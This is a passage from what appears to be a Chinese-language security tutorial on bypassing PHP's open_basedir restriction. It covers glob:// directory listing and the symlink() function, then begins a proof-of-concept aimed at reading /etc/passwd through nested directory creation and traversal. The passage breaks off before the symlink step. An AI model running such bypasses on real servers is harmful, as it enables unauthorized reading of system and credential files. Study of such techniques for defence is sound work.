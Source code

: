 ![](/blog_img/open_basedir_7.png)
同理，这种方法也只能列出根目录和open_basedir允许目录下的文件。  
可以看到，上面三种和glob://相关的协议，最大的缺陷就是只能列目录，而且还只能列根目录和open_basedir允许目录的内容。  

# 利用symlink()绕过
## symlink()函数
symlink()对于已有的target建立一个名为link的符号连接。  
用法如下:  
- symlink (string \$target,string \$link) symlink()对于已有的 target(一般情况下受限于open_basedir)建立一个名为link的符号连接。
- 成功时返回TRUE， 或者在失败时返回FALSE。
示例用法如下:

``` php
<?php
$target = 'uploads.php';
$link = 'uploads';
symlink($target, $link);

echo readlink($link);
# 将会输出'uploads.php'这个字符串
?>
```
## POC及原理分析
假如我们要读取/etc/passwd,对应的POC为:
```php
<?php
mkdir("a");
chdir("a");
mkdir("b");
chdir("b");
mkdir("c");
chdir("c");
mkdir("d");
chdir("d");
chdir("..");
chdir("..");
chdir("..");
```